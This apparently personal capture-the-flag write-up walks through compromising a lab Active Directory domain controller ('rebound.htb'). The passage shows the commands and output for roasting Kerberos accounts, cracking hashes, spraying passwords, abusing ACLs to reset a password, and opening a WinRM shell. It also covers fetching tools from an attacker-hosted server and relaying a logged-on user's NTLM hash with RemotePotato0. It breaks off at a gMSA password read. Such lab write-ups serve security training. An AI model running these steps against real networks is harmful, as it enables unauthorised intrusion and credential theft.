



# Rebound
## Host file setup
```python
sudo nxc smb 10.129.14.17 --generate-hosts-file /etc/hosts                                     
[sudo] password for kali: 
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```
Few things note:
- Null auth is true
- SMB signing is enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc01.rebound.htb                                                        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 14:53 +0100
Nmap scan report for dc01.rebound.htb (10.129.14.17)
Host is up (0.015s latency).
rDNS record for 10.129.14.17: DC01.rebound.htb
Not shown: 65509 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49673/tcp open  unknown
49690/tcp open  unknown
49691/tcp open  unknown
49696/tcp open  unknown
49709/tcp open  unknown
49724/tcp open  unknown
49743/tcp open  unknown
59390/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```
### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT dc01.rebound.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 14:55 +0100
Nmap scan report for dc01.rebound.htb (10.129.14.17)
Host is up (0.015s latency).
rDNS record for 10.129.14.17: DC01.rebound.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-04 20:55:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-04T20:56:09+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-04T20:56:09+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-04T20:56:09+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-04T20:56:09+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|2012|2022|2016 (96%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows Server 2019 (95%), Windows Server 2019 (92%), Microsoft Windows 10 1709 - 21H2 (91%), Microsoft Windows 10 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2022 (91%), Microsoft Windows 10 20H2 (90%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows 10 1903 - 21H1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap tell me the DC is running at +7h

## SMB (445)
Null auth is enabled but not able to use it to access shares or list users
### Guest access
The guest account is enabled

#### Shares
```python
nxc smb dc01.rebound.htb -u 'Guest' -p '' --shares
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\Guest: 
SMB         10.129.14.17    445    DC01             [*] Enumerated shares
SMB         10.129.14.17    445    DC01             Share           Permissions     Remark
SMB         10.129.14.17    445    DC01             -----           -----------     ------
SMB         10.129.14.17    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.14.17    445    DC01             C$                              Default share
SMB         10.129.14.17    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.14.17    445    DC01             NETLOGON                        Logon server share 
SMB         10.129.14.17    445    DC01             Shared          READ            
SMB         10.129.14.17    445    DC01             SYSVOL                          Logon server share
```
`Shared` share is empty
#### Users
```python
nxc smb dc01.rebound.htb -u 'Guest' -p '' --rid-brute 20000
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\Guest: 
SMB         10.129.14.17    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.14.17    445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.129.14.17    445    DC01             501: rebound\Guest (SidTypeUser)
SMB         10.129.14.17    445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.129.14.17    445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.129.14.17    445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.129.14.17    445    DC01             514: rebound\Domain Guests (SidTypeGroup)
SMB         10.129.14.17    445    DC01             515: rebound\Domain Computers (SidTypeGroup)
SMB         10.129.14.17    445    DC01             516: rebound\Domain Controllers (SidTypeGroup)
SMB         10.129.14.17    445    DC01             517: rebound\Cert Publishers (SidTypeAlias)
SMB         10.129.14.17    445    DC01             518: rebound\Schema Admins (SidTypeGroup)
SMB         10.129.14.17    445    DC01             519: rebound\Enterprise Admins (SidTypeGroup)
SMB         10.129.14.17    445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.14.17    445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.14.17    445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.14.17    445    DC01             525: rebound\Protected Users (SidTypeGroup)
SMB         10.129.14.17    445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         10.129.14.17    445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.14.17    445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.14.17    445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.14.17    445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.14.17    445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         10.129.14.17    445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         10.129.14.17    445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.14.17    445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         10.129.14.17    445    DC01             2952: rebound\llune (SidTypeUser)
SMB         10.129.14.17    445    DC01             3382: rebound\fflock (SidTypeUser)
SMB         10.129.14.17    445    DC01             5277: rebound\jjones (SidTypeUser)
SMB         10.129.14.17    445    DC01             5569: rebound\mmalone (SidTypeUser)
SMB         10.129.14.17    445    DC01             5680: rebound\nnoon (SidTypeUser)
SMB         10.129.14.17    445    DC01             7681: rebound\ldap_monitor (SidTypeUser)
SMB         10.129.14.17    445    DC01             7682: rebound\oorend (SidTypeUser)
SMB         10.129.14.17    445    DC01             7683: rebound\ServiceMgmt (SidTypeGroup)
SMB         10.129.14.17    445    DC01             7684: rebound\winrm_svc (SidTypeUser)
SMB         10.129.14.17    445    DC01             7685: rebound\batch_runner (SidTypeUser)
SMB         10.129.14.17    445    DC01             7686: rebound\tbrady (SidTypeUser)
SMB         10.129.14.17    445    DC01             7687: rebound\delegator$ (SidTypeUser
```
Found all the users, from here i can use this to generate a user list

With the users file i can perform something like AS-REP roasting

## AS-REP roasting
```python
nxc ldap dc01.rebound.htb -u users.txt -p '' --asreproast asrep.hash
LDAP        10.129.14.17    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.129.14.17    389    DC01             $krb5asrep$23$jjones@REBOUND.HTB:0551ef0d6dbd461030bc230450267059$004a8353e9f2bcec2d8e66a34ade019a4660c9aaea16c75d70b90d4f3fe9793157b3b5ad344c34d0a1be85ad13414bd828f153567f82bde50da10b4904c51b9e8f32f2231174db41856fac773cc151f74c2c8b293ecc005ad2672938c413acf640b55f978dc1b5138f97aeec08fa9f60c30e6a03d93bcdc253f7254cbc0e0bbc75bb79ef3819c6b8d38608b09cf1d9b95ae69fba2351a309b1911f080fbeda95370e37382391313c7659c29a6309a70c888fc915413a5f7a7704b873b5930d5b8cfa3ac2358b7465ed400bfd7104ab66f203b86a72e6a8d5e6cb1ef4d9519b7b589f686ff1c2f9e603c2
```
I have found a hash!

### Cracking the hash
The hash did not crack but i can still use it

## Kerberoasting via AS-REP roasting
So since i cant crack the hash i can still use it to kerberoast another user

```python
nxc ldap dc01.rebound.htb -u jjones -p '' --no-preauth-targets users.txt --kerberoasting kerb.hash
LDAP        dc01.rebound.htb 389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
LDAP        dc01.rebound.htb 389    DC01             [+] rebound.htb\jjones account vulnerable to asreproast attack 
LDAP        dc01.rebound.htb 389    DC01             [*] Skipping account: krbtgt, DC01$, delegator$
LDAP        dc01.rebound.htb 389    DC01             [*] Total of records returned 1
LDAP        dc01.rebound.htb 389    DC01             $krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$e5904c8b95fb4d9151068aeee7fb3129$6d96c58859d518bd5734e3705ca9b30cf51cd9cd0622a0229a70ff67a77a9b76cc3b4f79e5029a7ccf6b0ba6209ba584edee2ef3264ca3f126a4766cac60107c2ad9ee6db59b765f099b11d40192c4e65a203b3e1110c33777af60c70e627274b49d6d7a8534ade2d84b679321ff218a96d43435e252da587c97e09a3494a68072fc5ce1771fc51e844d8274e3d15ee705c034296549cb1588e14e4533936116a65a58c1d151583f5355f7a1edf310f39144ef7cd13165ea962e5cc864bc0e08a14a0087e3c1db353b17995953bb372a906872c8023f9ceaba202cf8f7545bc87ef9dc69d863a3504b242f6592fe05cfb51ce3e02cd6ff5bcc696f1dc0d4365da8cb11a7989e6f6929429ecc840cb06bc60c40eea4a16d4f510e7360eff60ac9053575ec70a082d24443a15a8f28868ff67f97f79e18fef2547d5791abd6b4d2238b56fc28d000517f1e8f4feb8529084760fc301256f04156fa9a2461c3499e911d744efbba676c6e7dcf2d04636559752b7e9a74aacc604290aa581b4a2b679011af71f6dab3f42884a5f2369c9515c7a547700702caf5a6e8681550b4ca0d1f3ee5a4e4bffecbcd40ca3b39665e98429706aa2911cf7395c629ba02fea0671e6bc29baca963d19d19ff332219f36b1d1122384785047033247560d4238982e94b0618d364a62f5abeb9ae5282ff19ad378c212a537bd558753ba4bed502f794c789aedbbf237cd0d2b79234c8602adf3c9f32c9d173032149a01a8a3111d1c16daffc67e1ad9119332a7e5cad2d745b06357fcb85aceb78f405f82fe6e4ebb5181f788ba96d0dc93d421ef5ca6890c9eed0362e0fc3957dfa4c12b0b9bb35ee872108803937b8b395c98b28c473f1a335492d7baef1eb6d0660c37e20a042c54d5e09934177ca89af7824fef63b21a19eaded8242d0785036d69480b39f53516136870a7292d634a9c320c22971ea40547d76906744e55cf37fca1e556446724961dddbf0f754675f9872fe022902a696254f4d0e59310da90e65e2d51d0e0e5255422c1f49487816044d01fa3543e4fa4f12ac1d4b6f9229688a9f1ef1a1362f1fd36a5a7fd4c7e46334df66f07358be05c7432a124469731ef22493fb7e1c546dfe1ed179504de471290119cc8a4c5ce28667b9b0463d45efa9d336b216af97658782235bb815f3bca60f6e5f8dbc87991ab21ce447983a52a14034efeea8500b8e6328e170303f251a9cb4f05ccb7a7a04ea9033668ced59f232bcc9006db72938406c544f5745929dae69b3192ed3a128a17848471836892f84e0b8f57abe7cb26710f22a52a4c3f3bc5e59aba9d0cd854d3d59da88f9f7ae5d4ef2fbd621
```
So we have dumped another hash and it seems that nxc is also skipping some other kerberoastable accounts for some reason

### Cracking the hash
```python
hashcat kerb.hash /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$e5904c8b95fb4d9151068aeee7fb3129$6d96c58859d518bd5734e3705ca9b30cf51cd9cd0622a0229a70ff67a77a9b76cc3b4f79e5029a7ccf6b0ba6209ba584edee2ef3264ca3f126a4766cac60107c2ad9ee6db59b765f099b11d40192c4e65a203b3e1110c33777af60c70e627274b49d6d7a8534ade2d84b679321ff218a96d43435e252da587c97e09a3494a68072fc5ce1771fc51e844d8274e3d15ee705c034296549cb1588e14e4533936116a65a58c1d151583f5355f7a1edf310f39144ef7cd13165ea962e5cc864bc0e08a14a0087e3c1db353b17995953bb372a906872c8023f9ceaba202cf8f7545bc87ef9dc69d863a3504b242f6592fe05cfb51ce3e02cd6ff5bcc696f1dc0d4365da8cb11a7989e6f6929429ecc840cb06bc60c40eea4a16d4f510e7360eff60ac9053575ec70a082d24443a15a8f28868ff67f97f79e18fef2547d5791abd6b4d2238b56fc28d000517f1e8f4feb8529084760fc301256f04156fa9a2461c3499e911d744efbba676c6e7dcf2d04636559752b7e9a74aacc604290aa581b4a2b679011af71f6dab3f42884a5f2369c9515c7a547700702caf5a6e8681550b4ca0d1f3ee5a4e4bffecbcd40ca3b39665e98429706aa2911cf7395c629ba02fea0671e6bc29baca963d19d19ff332219f36b1d1122384785047033247560d4238982e94b0618d364a62f5abeb9ae5282ff19ad378c212a537bd558753ba4bed502f794c789aedbbf237cd0d2b79234c8602adf3c9f32c9d173032149a01a8a3111d1c16daffc67e1ad9119332a7e5cad2d745b06357fcb85aceb78f405f82fe6e4ebb5181f788ba96d0dc93d421ef5ca6890c9eed0362e0fc3957dfa4c12b0b9bb35ee872108803937b8b395c98b28c473f1a335492d7baef1eb6d0660c37e20a042c54d5e09934177ca89af7824fef63b21a19eaded8242d0785036d69480b39f53516136870a7292d634a9c320c22971ea40547d76906744e55cf37fca1e556446724961dddbf0f754675f9872fe022902a696254f4d0e59310da90e65e2d51d0e0e5255422c1f49487816044d01fa3543e4fa4f12ac1d4b6f9229688a9f1ef1a1362f1fd36a5a7fd4c7e46334df66f07358be05c7432a124469731ef22493fb7e1c546dfe1ed179504de471290119cc8a4c5ce28667b9b0463d45efa9d336b216af97658782235bb815f3bca60f6e5f8dbc87991ab21ce447983a52a14034efeea8500b8e6328e170303f251a9cb4f05ccb7a7a04ea9033668ced59f232bcc9006db72938406c544f5745929dae69b3192ed3a128a17848471836892f84e0b8f57abe7cb26710f22a52a4c3f3bc5e59aba9d0cd854d3d59da88f9f7ae5d4ef2fbd621:1GR8t@$$4u
```
Ive cracked the hash

```python
ldap_monitor:1GR8t@$$4u
```
Ill now validate these creds

```python
nxc smb dc01.rebound.htb -u ldap_monitor -p '1GR8t@$$4u' --shares                                
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u 
SMB         10.129.14.17    445    DC01             [*] Enumerated shares
SMB         10.129.14.17    445    DC01             Share           Permissions     Remark
SMB         10.129.14.17    445    DC01             -----           -----------     ------
SMB         10.129.14.17    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.14.17    445    DC01             C$                              Default share
SMB         10.129.14.17    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.14.17    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.14.17    445    DC01             Shared          READ            
SMB         10.129.14.17    445    DC01             SYSVOL          READ            Logon server share
```
This user is compromised, no interesting access on shares
## Password spray leads to user compromise
```python
nxc smb dc01.rebound.htb -u users.txt -p '1GR8t@$$4u' --continue-on-success 
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [-] rebound.htb\Administrator:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\Guest:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\krbtgt:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\DC01$:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\ppaul:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\llune:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\fflock:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\jjones:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\mmalone:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\nnoon:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u 
SMB         10.129.14.17    445    DC01             [+] rebound.htb\oorend:1GR8t@$$4u 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\winrm_svc:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\batch_runner:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\tbrady:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.129.14.17    445    DC01             [-] rebound.htb\delegator$:1GR8t@$$4u STATUS_LOGON_FAILURE
```
There is another user using the same password as `ldap_monitor`

```python
oorend:1GR8t@$$4u
```

This user also has no more access on SMB

## Bloodhound
### Loot collection
```python
faketime -f +7h nxc ldap dc01.rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u' -k --dns-server 10.129.14.17 --bloodhound -c All
LDAP        dc01.rebound.htb 389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
LDAP        dc01.rebound.htb 389    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u 
LDAP        dc01.rebound.htb 389    DC01             Resolved collection methods: session, dcom, psremote, group, container, objectprops, localadmin, rdp, acl, trusts
LDAP        dc01.rebound.htb 389    DC01             Using kerberos auth without ccache, getting TGT
LDAP        dc01.rebound.htb 389    DC01             Done in 0M 4S
LDAP        dc01.rebound.htb 389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_dc01.rebound.htb_2026-04-04_222023_bloodhound.zip
```
Ive had to use kerberos authentication to collect the loot


I can add myself to this group

## Adding `oorend` to `servicemgmt`
```python
faketime -f +7h bloodyAD -k --host dc01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' add groupMember 'servicemgmt' 'oorend'

[+] oorend added to servicemgmt
```
Ive added the user to the group


Now i have `GenericAll` over the OU


This means i should be able to compromise `winrm_svc` and since they are apart of `remote management users` i should be able to get shell access as that user

## Giving GenericAll to all child objects in the OU
```python
faketime -f +7h dacledit.py -k -no-pass -action 'write' -rights 'FullControl' -inheritance -principal 'oorend' -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'rebound.htb'/'oorend':'1GR8t@$$4u' -use-ldaps
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20260404-230648.bak
[*] DACL modified successfully!
```
This now means i have GenericAll over everything connected to the OU including the `winrm_svc` account

```python
faketime -f +7h bloodyAD -k --host dc01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' set password 'winrm_svc' 'Password123!'

[+] Password changed successfully!
```
The password is now changed ill double check this just to be safe

```python
nxc smb dc01.rebound.htb -u 'winrm_svc' -p 'Password123!'                                               
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\winrm_svc:Password123!
```
This user is now compromised

## Evil-winrm as `winrm_svc`
```python
evil-winrm -i dc01.rebound.htb -u 'winrm_svc' -p 'Password123!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> dir


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/4/2026   1:49 PM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
||70c59b857470aef4bc448f0275c90502||
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> 
```
I now have shell access as this user!

## Running sharphound collection
```python
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> wget http://10.10.14.90:8000/SharpHound.exe -o sharphound.exe
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./sharphound.exe -c all
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> download 20260404151948_BloodHound.zip
                                        
Info: Downloading C:\Users\winrm_svc\Documents\20260404151948_BloodHound.zip to 20260404151948_BloodHound.zip
                                        
Info: Download successful!
```
This shows me getting the exe file and running it then downloading the collection


After ingesting the new data into bloodhound i see that there is another user with an active session `tbrady`

I can try something like remotepotato

## RemotePotato leads to user compromise
```python
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> wget http://10.10.14.90:8000/RunasCs.exe -o run.exe
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./run.exe winrm_svc 'Password123!' qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Active
```
I have found the session ID of `tbrady`

```python
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> wget http://10.10.14.90:8000/RemotePotato0.exe -o rp.exe
```
This tranfered it to the target

```python
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.14.17:8080
```
This set a listener

```python
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./rp.exe -m 2 -s 1 -x 10.10.14.90 -p 8080
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 8080
[*] Example Network redirector:
	sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:8080
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 8080 ...
[*] IStoragetrigger written: 104 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 8080
[+] User hash stolen!

NTLMv2 Client	: DC01
NTLMv2 Username	: rebound\tbrady
NTLMv2 Hash	: tbrady::rebound:fae89c03a043e494:160da51e07f0e6dc290592e10d3fbc56:01010000000000000f42025c83c4dc01d031e3de6b8f911c0000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e00680074006200070008000f42025c83c4dc01060004000600000008003000300000000000000001000000002000003dfc1385873951f06e0a31e26ef2fb991712d499dfcb8ff85ca6d452a9ead6370a00100000000000000000000000000000000000090000000000000000000000
```
Ive got a hash!

### Cracking the hash
```python
hashcat tbrady.hash /usr/share/wordlists/rockyou.txt

TBRADY::rebound:fae89c03a043e494:160da51e07f0e6dc290592e10d3fbc56:01010000000000000f42025c83c4dc01d031e3de6b8f911c0000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e00680074006200070008000f42025c83c4dc01060004000600000008003000300000000000000001000000002000003dfc1385873951f06e0a31e26ef2fb991712d499dfcb8ff85ca6d452a9ead6370a00100000000000000000000000000000000000090000000000000000000000:543BOMBOMBUNmanda
```
I have cracked the hash!

```python
tbrady:543BOMBOMBUNmanda
```
Ill validate these credentials

```python
nxc smb dc01.rebound.htb -u 'tbrady' -p '543BOMBOMBUNmanda'       
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda
```
This user is now compromised


I have some enrollee rights but there is no existing ADCS vulnerabilities here

But i do have `ReadGMSAPassword`

## Compromising `delegator$`
```python
nxc ldap dc01.rebound.htb -u 'tbrady' -p '543BOMBOMBUNmanda' --gmsa
LDAP        10.129.14.17    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
